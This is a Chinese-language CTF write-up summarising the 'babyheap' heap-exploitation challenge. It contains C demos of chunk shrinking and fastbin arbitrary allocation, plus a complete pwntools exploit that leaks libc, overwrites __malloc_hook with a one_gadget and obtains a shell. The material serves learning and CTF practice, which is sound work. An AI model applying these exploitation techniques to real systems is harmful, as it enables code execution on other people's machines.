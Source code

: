 ```yaml
---

layout: post

title: 'babyheap学习总结'

date: '2018-01-17'

header-img: "img/home-bg.jpg"

tags:
     - pwn 堆利用  
author: 'De4dCr0w'

---
```


<!-- more -->

### 漏洞原型

#### （1）通过shrink the chunk来leak libc地址

shrink the chunk demo 代码，在libc 2.19版本下能够利用成功，libc 2.23加入了对size的校验，引入的补丁：

https://sourceware.org/git/?p=glibc.git;a=commitdiff;h=17f487b7afa7cd6c316040f3e6c86dc96b2eec30

> In newer versions of glibc we will need to have our updated size inside b itself to pass the check 'chunksize(P) != prev_size (next_chunk(P))'

所以由于null覆盖，当前chunk为free状态，在大于2.19版本中需要在next chunk中伪造pre_size。

```
#include <stdlib.h>
#include <stdio.h>

int main()
{
    int i = 0;
    char data[100];
    memset(data,'\x00',sizeof(data));
    char *A = malloc(0x30);
    char *B = malloc(0x160);
    char *C = malloc(0xf0);

    puts("input:");
    char *num;
    read(0, num, 1);

    free(B);
    free(A);

    malloc(0x38);

    while(i < 0x38)
        data[i++] = 'a';
    data[i] = '\x00';

    memcpy(A,data,0x39);

    malloc(0x80);

    malloc(0x30);

    free(B);

    free(C);

    char *D = malloc(0x260);

    printf("info_leak_libc:%p\n",*(unsigned long *)(D+0x90));

    return 0;
}

```

调试脚本：

```
from pwn_debug.pwn_debug import *
context.log_level = 'debug'

pdbg = pwn_debug("./shrink_chunk_demo")
pdbg.debug("2.19")
p = pdbg.run("debug")

p.recvuntil("input:")
gdb.attach(p)
p.sendline("5")
p.interactive()

```

泄露信息libc 地址的对布局过程：

![image](https://raw.githubusercontent.com/De4dCr0w/De4dCr0w.github.io/master/image/babyheap/leakinfo.jpg)

泄露出来的只是main_arena+x的地址，而main_arena的地址位于__malloc_hook+0x10的地方，所以  
main_arena_offset = __malloc_hook_offset+0x10  
x = leak_address - (__malloc_hook_address+0x10)
libc_base_address = leak_address - (x + main_arena_offset)

最后只要求出泄露出来的地址和libc基地址的偏移就行：  
offset = leak_address - __malloc_hook_address + __malloc_hook_offset

计算 main_arena的偏移有个工具可以使用：  https://github.com/Escapingbug/get_main_arena

#### （2）通过fastbin attack修改程序流程

atbitrary alloc demo代码：

```
int main(void)
{


    void *chunk1;
    void *chunk_a;

    chunk1=malloc(0x60);

    free(chunk1);

    *(long long *)chunk1=0x7ffff7dd1b05;
    malloc(0x60);
    chunk_a=malloc(0x60);
    return 0;
}
```

### exp代码

```
from pwn import *

#context.terminal = ['tmux', 'splitw', '-h']

context.log_level = 'debug'

def Allocate(size):
    p.recvuntil("Command: ")
    p.sendline("1")
    p.recvuntil("Size:")
    p.sendline(str(size))
#    index = p.recvuntil("1. Allocate").split(' ')[3].split('\n')[0]
    index =1
    return index

def Fill(index,size,content):
    p.recvuntil("Command: ")
    p.sendline("2")
    p.recvuntil("Index:")
    p.sendline(str(index))
    p.recvuntil("Size:")
    p.sendline(str(size))
    p.recvuntil("Content:")
    p.sendline(content)



def Free(index):
    p.recvuntil("Command: ")
    p.sendline("3")
    p.recvuntil("Index:")
    p.sendline(str(index))

def Dump(index):
    p.recvuntil("Command: ")
    p.sendline("4")
    p.recvuntil("Index:")
    p.sendline(str(index))
    p.recvuntil("Content: \n")
    data = p.recvline()
    return data

def Exit():
    pass


if __name__=='__main__':

    env = {"LD_PRELOAD": os.path.join(os.getcwd(), "./libc.so.6_b86ec517ee44b2d6c03096e0518c72a1")}

    p = process("./babyheap",env=env)
#    libc = ELF("./libc.so.6.my")
    libc = ELF("./libc.so.6_b86ec517ee44b2d6c03096e0518c72a1")
    libc.symbols['one_gadget'] = 0x41374
    libc_offset = 0x3a5678
 
    index0 = Allocate(16)
    index1 = Allocate(480)
    index2 = Allocate(512)
    index3 = Allocate(512)

    #gdb.attach(p)
    Free(1)

    payload = 'a'*24 + '\x30'
    Fill(0,25,payload)

    index4 = Allocate(128) #index:1
    index5 = Allocate(96) #index:4

    Free(1)
    Free(2)

    Allocate(128) #index:1
    data = Dump(4)
    data = u64(data[:8])
    print hex(data)
    libc.address = data - libc_offset
	
    payload = 'b'*0x80+p64(0x90)+p64(0x70)
    #payload = flat('b'*0x80,0x90,0x70)
    Fill(1,len(payload),payload)
    Free(4) #释放了0x70的堆块
     
  
    payload = 'c'*0x80+p64(0x90)+p64(0x70)
    payload += p64(libc.symbols['__malloc_hook']-0x23)

    #错位构造出一个0x000000000000007f

    Fill(1,len(payload),payload); #修改0x70的堆块的fd值
    Allocate(96) #index:2 重新申请到0x70的堆块，此时calloc会擦除fd和bk的数据，但是之前的fd会被保存在main_arena上
    Allocate(96) #index:4 根据伪造的fd地址，申请到__malloc_hook-0x23的位置

    gdb.attach(p)

    payload = 'd'*19 + p64(libc.symbols['one_gadget'])#覆盖__malloc_hook为/bin/sh的地址，0x23 -0x10（header）= 0x13 = 19,所以覆盖19个'd'后，再覆盖就是__malloc_hook的地址了。
    Fill(4,len(payload),payload)

    Allocate(96)
    p.interactive()

```

最后更改malloc_hook最后调用/bin/sh了，这里还有一个工具，用来找libc里的magic gadget，也就是将控制流放到这就能调用/bin/sh而不用考虑参数的问题的：  
https://github.com/david942j/one_gadget/tree/master/spec

### 参考链接

https://ctf-wiki.github.io/ctf-wiki/pwn/heap/fastbin_attack.html

https://poning.me/2017/03/24/baby-heap-2017/

https://github.com/david942j/one_gadget
